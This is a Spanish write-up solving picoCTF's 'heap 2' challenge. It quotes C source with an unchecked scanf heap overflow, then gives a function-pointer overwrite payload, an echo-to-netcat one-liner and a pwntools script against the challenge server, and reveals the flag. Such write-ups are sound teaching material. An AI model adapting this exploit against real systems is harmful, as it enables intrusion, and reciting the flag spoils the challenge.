





# heap 2


## Descripción
Can you handle function pointers?  
Download the binary [here](https://artifacts.picoctf.net/c_mimas/49/chall).  
Download the source [here](https://artifacts.picoctf.net/c_mimas/49/chall.c).
Additional details will be available after launching your challenge instance.

## Resolución
Analizando el código fuente nos encontramos con lo siguiente:

Tenemos "x" declarada en el heap:

```c
char *x;
char *input_data;
```

Podemos ver sus direcciones con la opción 1:

```c
void print_heap() {
    printf("[*]   Address   ->   Value   \n");
    printf("+-------------+-----------+\n");
    printf("[*]   %p  ->   %s\n", input_data, input_data);
    printf("+-------------+-----------+\n");
    printf("[*]   %p  ->   %s\n", x, x);
    fflush(stdout);
}
```

Podemos escribir información en "input_data", pudiendo hacer un heap overflow y llegar a x:

```c
void write_buffer() {
    printf("Data for buffer: ");
    fflush(stdout);
    scanf("%s", input_data);
}
```
"x" es interpretada como un puntero de función:

```c
void check_win() { ((void (*)())*(int*)x)(); }
```

Y tenemos la función "win()" inaccesible:

```c
void win() {
    // Print flag
    char buf[FLAGSIZE_MAX];
    FILE *fd = fopen("flag.txt", "r");
    fgets(buf, FLAGSIZE_MAX, fd);
    printf("%s\n", buf);
    fflush(stdout);

    exit(0);
}
```

Con lo cual, lo que hay que hacer es lo siguiente:
1. Obtener la dirección de memoria de "win()".
2. Realizar un heap obverflow para poner en x la dirección de memoria de la función "win()".
3. Llamar a "check_win()" para que llame a "win()".

Para encontrar la dirección de memoria de la función "win()" usaremos el siguiente comando:

```bash
objdump -D chall | grep "win"
```



Obteniendo '00 00 00 00 00 40 11 a0'. Esta dirección la necesitamos en little endian, debido a que la mayoría de ordenadores de arquitectura x86 lo usan.

El resultado tras cambiar el orden es: 'a0 11 40 00 00 00 00 00'. Ahota tenemos que transformarlo en hexadecimal, para que el ordenador los interprete correctamente:

'\xa0\x11\x40\x00\x00\x00\x00\x00'.

El siguiente paso es calcular el overflow necesario. El programa nos deja imprimir el heap, por lo que no tendremos que probar con fuerza bruta:



Vamos a escribir en 'input_data', que tiene el valor 'pico' y queremos modificar 'x', que tiene el valor 'bico'. Para poder llegar de una a otra restaremos sus direcciones de memoria y calcularemos cuántos caracteres poner por delante de la dirección de la función:

1. Convertimos las direcciones en decimal:
- - 0x7fb6b0 = 5220528
- - 0x7fb6d0 = 5220560
2. Restamos.
- - 5220560 - 5220528 = 32

Con lo cual, tenemos que añadir 32 bytes de información, un carácter es un byte, por lo que añadiremos antes de la dirección de la función 32 'D'.

Creando el siguiente payload: 'DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDD\xa0\x11\x40\x00\x00\x00\x00\x00'.

Ahora, para enviarlo no podemos usar la consola, puesto que no lo codifica automáticamnete. Para enviarlo correctamente tenemos dos opciones:

1. Con el comando 'echo':

nc mimas.picoctf.net 53733
```bash
echo -e "2\nDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDD\xa0\x11\x40\x00\x00\x00\x00\x00\n4" | nc mimas.picoctf.net 53733
```
- echo: sirve para enviar información al siguiente comando.
- - -n: Evita que 'echo' añada un \n al final.
- - 2\n: Selecciona la opción 2 del menú.
- - 'DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDD': Rellena los espacios hasta llegar a la variable 'x'.
- - \x: Indica un carácter hexadecimal.
- - \x00\n: Da al Enter tras haber introducido el payload.

- - 4: Selecciona la opción 4 para imprimir por pantalla la flag (echo añade un \n por defecto al final).
- nc: Nos conectamos a la máquina de pico
- - mimas.picoctf.net: El servidor
- - 53733: El puerto



2. Con un script de python:

```python
from pwn import *

p = remote("mimas.picoctf.net", 53733)

p.sendline(b"2")
p.recvuntil(b"buffer:")
p.sendline(b"DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDD\xa0\x11\x40\x00\x00\x00\x00\x00")

p.recvuntil(b"choice:")
p.sendline(b"4")
print(p.recvall())
```

- from pwn import *: Importamos la librería (pip install pwntools)
- p = remote: Nos conectamos al servidor y guardamos la conexión en 'p'.
- p.sendline: Enviamos una línea (con b antes para indicar que se envíen en bytes)
- p.recvuntil: Esperamos a que se reciba la cadena de texto para continuar (con b antes para indicar que se reciben en bytes).
- print: Imprimimos la conversación entre el programa y el servidor.



Obteniendo así la flag: 'picoCTF{and_down_the_road_we_go_dde41590}'.